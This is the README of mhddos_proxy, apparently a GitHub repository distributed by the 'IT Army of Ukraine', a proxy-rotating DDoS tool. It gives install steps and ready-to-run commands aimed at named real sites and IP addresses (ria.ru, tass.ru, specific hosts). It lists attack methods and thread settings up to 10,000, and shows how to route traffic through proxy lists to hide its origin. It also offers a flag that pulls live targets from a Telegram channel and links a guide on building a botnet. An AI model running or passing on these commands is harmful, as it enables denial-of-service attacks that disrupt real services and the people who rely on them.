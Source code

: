 ## IT Army of Ukraine Official Tool

### Use flag `--lang en` to enable English translation

- Built-in proxy server database with a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different load-testing methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent updates

Update versions for | Mac | Linux | Android | Docker (UA only so far): https://telegra.ph/Onovlennya-mhddos-proxy-04-16

- **21.05.2022**
  - Added english localization - use flag `--lang EN` (more languages may be added later)

- **18.05.2022**
  - Added `--copies` option in order to run multiple copies (recommended for use with 4+ CPUs and network > 100 Mb / s).

- **15.05.2022**
  - Completely updated the asynchronous version, which ensures maximum efficiency and minimum load on the system
  - Efficient operation with larger values of the `-t` parameter (up to 10k) without the risk of "freezing" the whole system
  - A brand-new algorithm for load balancing between targets in order to achieve maximum efficiency
  - Attack types `RGET`, `RHEAD`, `RHEX` and `STOMP` added

### 💽 Installation

#### Python (If it doesn't work, try `python` or `python3.10` instead of `python3`)

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    python3 -m pip install -r requirements.txt

#### Docker

Install Docker and use instructions for running Docker below

- Windows: https://docs.docker.com/desktop/windows/install/
- Mac: https://docs.docker.com/desktop/mac/install/
- Ubuntu: https://docs.docker.com/engine/install/ubuntu/

#### Extended instructions (UA only so far) - [click here](/docs/installation.md)

### 🕹 Running (different options for targets are given)

#### Python (If it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Settings (check out more in the [CLI](#cli) section)

**All options can be combined**, you can specify them either before and after the list of targets

Change the workload: `-t XXXX`; the maximum number of simultaneously open connections; the default is 7500 (or 1500 if the machine has only one CPU).

    python3 runner.py -t 7500 https://ria.ru https://tass.ru

To monitor information about the progress, add the `--debug` flag for the text, `--table` for the table-style display

    python3 runner.py --debug https://ria.ru https://tass.ru

Consider adding your IP/VPN to the attack (especially when running on dedicated server)

    python3 runner.py https://ria.ru https://tass.ru --vpn

To use targets provided by https://t.me/itarmyofukraine2022 add the `--itarmy` option  

    python3 runner.py --itarmy --debug

### 📌 New automatic proxy finder for mhddos_proxy
The script itself and installation instructions are here: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Community (mostly in Ukrainian)
- [Detailed analysis of mhddos_proxy and installation instructions](docs/installation.md)
- [Analysis of mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Create a botnet of 30+ free and standalone Linux servers](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
     optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 7500     Total number of threads to run (default is 7500 if CPU > 1, 1500 otherwise)
      --table / --debug      Print log as table / as text
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)
      --lang {en,ua}         Select language (default is ua)

### Custom proxies

#### File format:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is used.
For example, for a public `socks4` proxy the format will be fhe following:

    socks4://114.231.123.38:3065

and for the private `socks4` proxy format can be one of the following:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065

**URL of the remote file for Python and Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt

where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    python3 runner.py --proxies proxies.txt https://ria.ru

where `proxies.txt` is your proxy list file (each proxy should be on a new line)
